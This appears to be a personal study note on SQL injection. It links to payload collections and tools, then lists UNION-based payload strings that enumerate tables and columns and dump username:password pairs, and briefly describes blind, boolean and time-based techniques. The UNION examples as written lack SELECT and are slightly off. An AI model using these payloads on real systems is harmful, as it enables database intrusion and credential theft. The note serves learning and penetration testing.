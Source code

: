 SQL Injection is a common vulnerability even in modern systems. 

The mother of all resources on this attack can be found here: https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection

I will not be able to top this resource nor effectively summarize all the valid SQLi payloads. Refer to this manual instead,

See [[Sqlmap]] for command details and cheatsheet. 
See [[Wafwoof]] for WAF detection and PayloadsAllTheThings for WAF bypasses. 
See [[Burp Suite]] for manual injections with easier replayability. 

# UNION-Based

After confirming an SQLi exists, you may use the UNION keyword to return results from several select statements. 
1. Confirm the number of columns. Add columns to your UNION statement until they match
	- `UNION 1`
	- `UNION 1,2`
	- `UNION 1,2,3`
	- `UNION 1,2,3,4`
2. Identify database information. Use `database()` and `group_concat()` to display information about the database you have access to.
	- `UNION 1,2,3,database()`
	- `UNION 1,2,3,group_concat(table_name) from information_schema.tables where table_schema = '<database name>'`
	- `UNION 1,2,3,group_concat(column_name) from information_schema.columns where table_name = '<table name>'`
3. Get the data you want from the database
	- `UNION 1,2,3,group_concat(username,':',password SEPARATOR '<br>') from <table name>`

# BLIND SQLi

## Authentication Bypasses
The cheat sheet above has a large list of auth bypasses for SQLi-vulnerable login forms. Select the correct one of these and proceed accordingly. 

## Boolean Based
Boolean-based SQLi occurs when a value is returned to the user when a query evaluates true. For instance, the function that determines if a user exists or not. Using this method, we can evaluate whether or not users exist, what table names are, etc using the SQL wildcard operator '%'. 

## Time Based
Same as Boolean-Based except using a SQL `sleep(?d)` statement to induce a delay on a success. For this attack , your query should evaluate to false by default. 
